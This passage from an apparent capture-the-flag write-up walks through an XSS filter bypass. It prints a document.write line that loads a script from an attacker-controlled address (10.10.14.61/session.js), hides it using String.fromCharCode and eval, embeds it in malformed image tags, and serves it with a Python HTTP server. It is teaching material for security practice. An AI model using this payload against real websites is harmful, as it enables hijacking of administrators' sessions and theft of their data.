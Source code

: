 A method for getting our custom externally hosted script to execute on the webpage is to use the ``document.write('<script src="http://10.10.14.61/session.js"></script>');`` javascript function with a string that calls our hosted script, but we have already determined that the string format is broken by the filtering rules. We can bypass this however by using two handy javascript functions. 

The ``String.fromCharCode()`` function can be used to convert character code into the string that the data represents, if we combine that with the ``eval()`` function which will process a string argument as javascript, then we can convert character code into a string which contains our document.write() function and then run that string as javascript. This will result in the ``document.write()`` function being executed within the script tags which will force the admin to connect to our hosted script. You can read more about javascript and it’s built in functions at:  https://developer.mozilla.org/en-US/docs/Web/JavaScript

We can use python to convert our ``document.write()`` function into character code by using a join which loops through each character in the string and converts it. This can be done by either writing a python script or using the python interpreter, either way the code will be more of less the same.

![img](assets/python_charcode.png)

Now we can use these character codes in our script payload which we can execute by imbedding it into the malformed image tags we experimented with before. First we must host the directory with our local custom javacript via python HTTP server.

![img](assets/python_server_start.png)
